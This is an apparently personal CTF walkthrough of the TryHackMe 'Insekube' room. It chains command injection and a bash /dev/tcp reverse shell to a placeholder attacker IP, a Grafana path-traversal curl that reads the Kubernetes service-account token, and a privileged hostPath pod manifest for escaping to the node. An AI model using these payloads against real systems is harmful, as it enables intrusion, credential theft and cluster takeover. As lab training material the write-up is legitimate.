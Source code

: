 <a href="https://tryhackme.com/room/insekube"> Insekube </a>
Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

Task 1

nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
This will give us answer rot the first question.

Task 2
On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)
We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1

Task 3
No answer needed

Task 4
We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

Task 5
Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
curl http://grafana:3000/login/ - Text is long but it is easy to find ;)

 

Task 6
I had trouble with running exploit but when googling around I have found solution
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

Task 7
First we need to prepare .yaml file
`apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /`

 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use find / -type f -name root.txt
   

